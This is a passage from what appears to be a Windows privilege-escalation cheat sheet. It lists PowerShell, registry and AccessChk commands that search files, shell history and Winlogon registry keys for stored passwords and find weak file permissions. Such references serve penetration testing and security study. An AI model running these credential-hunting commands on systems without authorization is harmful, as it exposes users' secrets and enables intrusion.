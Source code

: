
#### Registry & Filesystem

```
PS > gci . -recurse -file -ea SilentlyContinue | select fullname
PS > gci "$env:userprofile" -recurse -file -ea SilentlyContinue | select fullname
PS > gi (Get-PSReadLineOption).HistorySavePath
PS > gc $env:appdata\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
PS > cmd /c dir /S /B *pass*.txt == *pass*.xml == *pass*.ini == *cred* == *vnc* == *.config*
PS > cmd /c where /R C:\ *.ini
PS > cmd /c 'cd C:\ & findstr /SI /M "password" *.xml *.ini *.txt'
PS > reg query HKLM /f "password" /t REG_SZ /s
PS > reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" | findstr /i "DefaultUserName DefaultDomainName DefaultPassword AltDefaultUserName AltDefaultDomainName AltDefaultPassword LastUsedUsername"
Or
PS > Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" | select DefaultPassword
PS > reg query "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Internet Settings" | findstr /i proxy
PS > [System.Net.WebRequest]::DefaultWebProxy.GetProxy("http://example.com/test.txt")
```


#### Users & Groups

```
PS > Get-LocalGroup
PS > Get-LocalGroupMember Administrators
PS > [wmi] "Win32_userAccount.Domain='$env:computername',Name='Administrator'"
```



### AccessChk

* [https://www.fuzzysecurity.com/tutorials/16.html](https://www.fuzzysecurity.com/tutorials/16.html)
* [https://docs.microsoft.com/en-us/sysinternals/downloads/accesschk](https://docs.microsoft.com/en-us/sysinternals/downloads/accesschk)
* [https://xor.cat/2017/09/05/sysinternals-accesschk-accepteula/](https://xor.cat/2017/09/05/sysinternals-accesschk-accepteula/)

Find weak file permissions:

```
Cmd > .\accesschk.exe /accepteula -uwsq Users c:\*.*
Cmd > .\accesschk.exe /accepteula -uwsq "Authenticated Users" c:\*.*
```

Find weak directory permissions:

```
Cmd > .\accesschk.exe /accepteula -uwdsq Users c:\
Cmd > .\accesschk.exe /accepteula -uwdsq "Authenticated Users" c:\
```
